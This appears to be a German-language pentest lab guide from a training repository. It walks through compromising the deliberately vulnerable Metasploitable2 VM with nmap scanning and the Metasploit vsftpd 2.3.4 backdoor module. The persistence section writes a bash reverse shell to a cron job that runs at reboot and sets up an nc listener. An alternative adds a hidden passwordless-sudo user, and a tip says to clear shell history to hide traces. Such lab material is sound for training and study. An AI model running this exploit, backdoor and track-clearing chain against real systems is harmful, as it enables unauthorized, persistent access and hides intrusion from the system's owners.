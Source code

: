 # 🛡️ Red Team Pentesting Routine: vsftpd Exploitation & Backdoor auf Metasploitable2

## 🔍 Ziel
1. Finde Metasploitable2 im Netzwerk, 
2. nutze eine bekannte Schwachstelle in `vsftpd v2.3.4` aus, 
3. verschaffe dir Zugriff via `msfconsole` und
4. erstelle eine persistente Backdoor für künftige Zugriffe.

---

## 🧪 Testumgebung

- **Angreifer:** Kali Linux (z. B. 192.168.1.100)
- **Zielsystem:** Metasploitable2 (IP wird ermittelt)
- **Firewall/Gateway:** pfSense (z. B. 192.168.1.1)
- **Netzbereich:** 192.168.1.0/24

---

## 1. 🧭 Netzwerkerkennung via Nmap

Scanne das Netzwerk, um das Zielsystem zu identifizieren:

```bash
sudo nmap -sP 192.168.1.0/24
```

Suche nach einem Host mit offenen Ports wie 21, 22, 23, 80 usw. – typisch für Metasploitable2.
Angenommen, du findest:
```kotlin
Nmap scan report for 192.168.1.0/24
Host is up (0.00041s latency).
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
```
Merke dir die IP, z. B. 192.168.1.102.

---

## 2. 🎯 Service-Erkennung

Jetzt gezielt den FTP-Port prüfen:

```bash
sudo nmap -sV -p21 192.168.1.102
```
Erwartete Ausgabe:
```pgsql
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```
Diese Version ist bekannt verwundbar für eine Backdoor-Shell über speziell formatierte Login-Daten.

---
## 3. 💥 Exploitation mit Metasploit

Starte Metasploit:
```bash
msfconsole
```

Lade das passende Exploit-Modul:
```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.102
set RPORT 21
exploit
```

Wenn erfolgreich, erhältst du:
```css
[*] Backdoor service has been spawned
[*] Command shell session 1 opened
```

---

## 4. 🛠️ Zugriff sichern (Backdoor persistieren)

Du hast jetzt eine Shell. Ziel: eine persistente Backdoor.

1. Prüfe zuerst den User-Kontext:
```bash
whoami
```
2. Eine einfache Methode: Erzeuge einen Reverse-Shell Bash-Skript im Autostart:
```bash
echo "bash -i >& /dev/tcp/192.168.1.101/4444 0>&1" > /tmp/bd.sh
chmod +x /tmp/bd.sh
echo "@reboot root /tmp/bd.sh" >> /etc/crontab
```
3. Starte Listener auf Kali:
```bash
nc -lvnp 4444
```

Beim nächsten Reboot von Metasploitable2 verbindet sich die Shell zu deinem Kali.

**Alternative:** Erstelle einen neuen Benutzer:
```bash
useradd redteam -m -s /bin/bash
echo 'redteam:redpass' | chpasswd
echo "redteam ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```
---

## 5. 📎 Cleanup & Hinweise

- Für realistische Tests kann history -c verwendet werden, um Spuren zu verwischen.
- Beachte: Metasploitable2 ist absichtlich verwundbar – verwende diese Methoden nicht gegen produktive Systeme.
- Dokumentiere deine Sessions mit script:
```bash
script pentest_session.log
```

---

## 🧾 Zusammenfassung der Schritte

| Schritt | Tool        | Zweck                           |
| ------- | ----------- | ------------------------------- |
| 1       | Nmap        | Netzwerkscan                    |
| 2       | Nmap        | Servicedetektion (vsftpd 2.3.4) |
| 3       | Metasploit  | Exploitation via FTP-Backdoor   |
| 4       | Netcat/Bash | Backdoor persistieren           |
| 5       | Bash        | Optional: Benutzer anlegen      |


---

## ✅ Tools benötigt

- nmap
- msfconsole (Metasploit Framework)
- netcat
- bash
- cron

## 🧠 Empfehlung

Nutze iptables oder pfSense Logging, um zu beobachten, wie Angriffe in der Firewall sichtbar werden. 
Dies ist nützlich für spätere Blue Team-Analysen.

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich 
der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet 
werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch 
und rechtlich korrekt handeln.

[Disclaimer](/cybersercurity/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---